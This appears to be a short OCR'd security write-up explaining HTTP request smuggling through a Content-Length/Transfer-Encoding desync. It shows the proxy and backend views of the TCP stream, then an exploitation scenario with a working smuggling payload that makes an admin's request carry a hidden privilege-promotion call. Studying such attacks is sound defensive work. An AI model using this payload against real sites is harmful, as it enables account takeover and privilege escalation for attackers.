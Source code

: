#### Victim sends:

```http
GET / HTTP/1.1
Host: target.site
```

#### TCP Stream (Proxy View):

```
[Request 1]
POST / HTTP/1.1
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
[Request 2]
GET / HTTP/1.1
Host: target.site
```

#### TCP Stream (Backend View):

```
[Request 1]
POST / HTTP/1.1
Transfer-Encoding: chunked

0

[Request 2]
HELLOGET / HTTP/1.1
Host: target.site
```

The backend interprets the next method as `HELLOGET`, which is invalid. It returns an HTTP `405 Method Not Allowed`.

---
### Exploitation Scenario

#### Goal:

Force an authenticated user (e.g., an admin) to unknowingly perform an action like:

```http
POST /api/promote_user?id=2 HTTP/1.1
```

#### Smuggling Payload:

```http
POST / HTTP/1.1
Host: target.site
Content-Length: 52
Transfer-Encoding: chunked

0

POST /api/promote_user?id=2 HTTP/1.1
Dummy:
```
